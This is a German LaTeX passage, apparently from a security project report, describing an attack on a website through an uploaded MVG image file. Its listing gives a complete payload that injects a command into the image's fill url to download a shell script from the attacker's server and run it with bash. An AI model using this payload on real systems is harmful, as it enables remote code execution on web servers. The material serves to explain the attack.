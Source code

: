\subsubsection{Generische angreifende MVG-Datei}

Der Angriffspunkt auf die Website besteht darin eine infizierte MVG-Datei analog zu den einfachen Beispielen oben hochzuladen und somit an Informationen über die Webserver zu kommen.\\

Da, in der MVG nur eine Zeile Platz ist den schädlichen Code zu platzieren, haben wir uns für einen generischen Code entschieden.
Hier wird eine .sh-Datei von dem Server des Angreifers heruntergeladen und per Bash ausgeführt.

\begin{lstlisting}[language=MVG, caption=Aufbau generische angreifende MVG-Datei,label={lst:genericmvg}]
push graphic-context
viewbox 0 0 640 480
fill 'url(https://miro.medium.com/max/700/1*MI686k5sDQrISBM6L8pf5A.jpeg"|curl "http://192.168.16.125:8080/attack"| bash")'
pop graphic-context
\end{lstlisting}
\vspace{5mm}

Der Angreifer kann also auf seinem Server entscheiden,
welcher Code ausgeführt wird und die Implementierung jederzeit erweitern ohne die MVG Datei anpassen zu müssen.\\

Der Aufbau des Webservers des Angreifers ist im folgenden Absatz beschrieben.